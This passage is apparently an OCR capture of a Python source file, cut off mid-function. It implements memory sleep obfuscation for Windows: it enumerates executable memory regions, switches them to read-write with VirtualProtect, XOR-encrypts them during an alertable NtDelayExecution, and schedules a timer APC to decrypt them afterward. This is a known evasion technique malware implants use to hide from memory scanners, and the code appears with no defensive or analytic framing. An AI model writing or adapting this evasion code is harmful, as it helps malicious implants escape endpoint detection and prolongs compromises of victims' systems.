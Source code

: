 ```python
            True if sleep completed successfully
        """
        if not self.is_windows:
            # Fallback to regular sleep on non-Windows
            import time
            time.sleep(milliseconds / 1000.0)
            return True
        
        try:
            # 1. Find all executable regions
            regions = self._enumerate_executable_regions()
            
            # 2. Encrypt each region
            for region in regions:
                self._encrypt_region(region)
            
            # 3. Set up timer APC to decrypt
            self._setup_decrypt_timer(milliseconds)
            
            # 4. Enter alertable sleep (can receive APC)
            large_int = ctypes.c_longlong(milliseconds * -10000)  # Negative = relative time
            self.ntdll.NtDelayExecution(
                1,  # Alertable = True
                ctypes.byref(large_int)
            )
            
            # 5. Timer APC fired, memory decrypted automatically
            # Execution resumes here
            
            return True
            
        except Exception:
            # If encryption fails, try to decrypt what we encrypted
            for region in self.encrypted_regions:
                self._decrypt_region(region)
            return False
    
    def _encrypt_region(self, region: dict):
        """Encrypt memory region with XOR"""
        try:
            # Change protection to RW
            old_protect = wintypes.DWORD()
            if not self.kernel32.VirtualProtect(
                region['address'],
                region['size'],
                0x04,  # PAGE_READWRITE
                ctypes.byref(old_protect)
            ):
                return
            
            # Encrypt with XOR (fast, symmetric)
            buffer = (ctypes.c_ubyte * region['size']).from_address(region['address'])
            for i in range(region['size']):
                buffer[i] ^= self.sleep_key[i % 32]
            
            # Keep as RW (encrypted code can't execute)
            region['old_protect'] = old_protect.value
            self.encrypted_regions.append(region)
            
        except:
            pass
    
    def _decrypt_region(self, region: dict):
```